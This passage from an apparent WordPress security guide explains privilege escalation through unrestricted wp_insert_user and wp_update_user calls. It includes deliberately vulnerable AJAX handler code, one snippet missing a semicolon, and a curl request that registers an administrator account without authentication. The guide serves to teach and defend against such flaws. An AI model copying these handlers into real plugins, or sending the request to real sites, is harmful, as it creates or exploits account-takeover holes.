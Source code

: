 One of the ways to register a user is through a [`wp_insert_user`](https://developer.wordpress.org/reference/functions/wp_insert_user/) function. This function accepts `$userdata` parameter which is an array, object, or `WP_User` object of user data arguments. One of the values inside of the parameter is `role` which determines the role for the inserted user. Another value would be `meta_input` which can be filled with custom user meta data which can also result in a privilege escalation.

Example of vulnerable code :

```php
add_action("wp_ajax_nopriv_open_registration", "open_registration");

function open_registration(){
    $user_data = array(
        'user_login'    => !empty( $_POST['reg_name'] ) ? $_POST['reg_name']: "",
        'user_pass'     => !empty( $_POST['reg_password'] ) ? $_POST['reg_password']: "",
        'user_email'    => !empty( $_POST['reg_email'] ) ? $_POST['reg_email']: "",
        'user_url'      => !empty( $_POST['reg_website'] ) ? $_POST['reg_website']: "",
        'first_name'    => !empty( $_POST['reg_fname'] ) ? $_POST['reg_fname']: "",
        'last_name'     => !empty( $_POST['reg_lname'] ) ? $_POST['reg_lname']: "",
        'nickname'      => !empty( $_POST['reg_nickname'] ) ? $_POST['reg_nickname']: "",
        'description' => !empty( $_POST['reg_bio'] ) ? $_POST['reg_bio']  : "",
        'role'        => !empty( $_POST['reg_role'] ) ? $_POST['reg_role']: get_option( 'default_role' ),
    );    

    $register_user = wp_insert_user( $user_data );
    echo "user registration complete";
}
```

To exploit this, any unauthenticated user just needs to perform a POST request to the `admin-ajax.php` endpoint specifying the needed action and parameter to trigger the `wp_insert_user` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=open_registration -d "reg_name=pwned&reg_password=pwned123&reg_email=pwned@mail.com&reg_fname=pwned&reg_lname=pwned&reg_role=administrator"
``` 

## Unrestricted User Update

Similar as the above case, instead of the user registration process, this case involves updating data on the user's main table. This process is mostly found in a plugin or theme that has a custom feature to update the user's main data such as first name, last name, description, etc.

One of the ways update a user's main data is through a [`wp_update_user`](https://developer.wordpress.org/reference/functions/wp_update_user/) function. This function accepts `$userdata` parameter which is an array, object, or `WP_User` object of user data arguments. One of the values inside of the parameter is `role` which determines the role for the inserted user. Another value would be `meta_input` which can be filled with custom user meta data which can also result in a privilege escalation.

Example of vulnerable code to escalate own account role:

```php
add_action("wp_ajax_custom_update_profile", "custom_update_profile");

function custom_update_profile(){
    $user_data = array();

    foreach($_POST["data"] as $key => $value){
        $user_data[$key] = $value
    }
    
    $user_data["ID"] = get_current_user_id();

    wp_update_user( $user_data );
    echo "user profile updated";
```